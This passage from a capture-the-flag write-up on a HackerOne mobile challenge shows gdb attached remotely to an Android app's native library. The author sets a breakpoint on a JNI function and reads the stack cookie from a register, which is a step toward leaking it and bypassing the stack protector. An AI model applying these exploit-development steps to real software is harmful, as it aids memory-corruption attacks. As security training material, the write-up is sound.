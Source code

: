 And from the host:

```bash
$ gdb /path/of/challenge5/libs/x86_64/libnative-lib.so
GNU gdb (GDB) 7.11
...
Reading symbols from libnative-lib.so...(no debugging symbols found)...done.
```

Once done we can attach to our remote gdb listener and collect some info:

```bash
(gdb) target remote :23946
...
(gdb) layout asm
(gdb) layout regs
(gdb) info functions censorDogs
0x0000000000001270  Java_com_hackerone_mobile_challenge5_PetHandler_censorDogs
0x00007c1e2e78d160  com.hackerone.mobile.challenge5.PetHandler.censorDogs
0x00007c1e2e661270  Java_com_hackerone_mobile_challenge5_PetHandler_censorDogs
```

We now have a wonderful view of asm and registers and we even know the address of **Java_com_hackerone_mobile_challenge5_PetHandler_censorDogs**.

We've just to set a breakpoint on it and resume the execution:

```bash
(gdb) break *0x00007c1e2e661270
(gdb) continue
```

Our web page will be shown into hackerone's mobile app and it's time to push the button! gdb will hang when the address is reached letting us step line by line using `si` or `ni` commands.

```bash
0x7c1e2e661270 <Java_com_~>     push   %rbp
0x7c1e2e661271 <Java_com_~+1>   push   %r15    
0x7c1e2e661273 <Java_com_~+3>   push   %r14  
0x7c1e2e661275 <Java_com_~+5>   push   %rbx  
0x7c1e2e661276 <Java_com_~+6>   sub    $0x408,%rsp  
0x7c1e2e66127d <Java_com_~+13>  mov    %edx,%r14d  
0x7c1e2e661280 <Java_com_~+16>  mov    %rdi,%rbx           
0x7c1e2e661283 <Java_com_~+19>  mov    %fs:0x28,%rax    <--- rax contains our stack cookie
0x7c1e2e66128c <Java_com_~+28>  mov    %rax,0x400(%rsp)

-----

rax            0xa1d20cf7896c32ce
rcx            0x7c1e2affdd88
rsi            0x7c1e2affdd84
rbp            0x7c1e2affde18
r8             0x7c1e2affe178
r10            0x7c1e2e8cc049
```

You've to reach the marked line. In my case the stack cookie is `0xa1d20cf7896c32ce`. Why do we need to know its value? 'Cause we must locate it in returned leaked data!
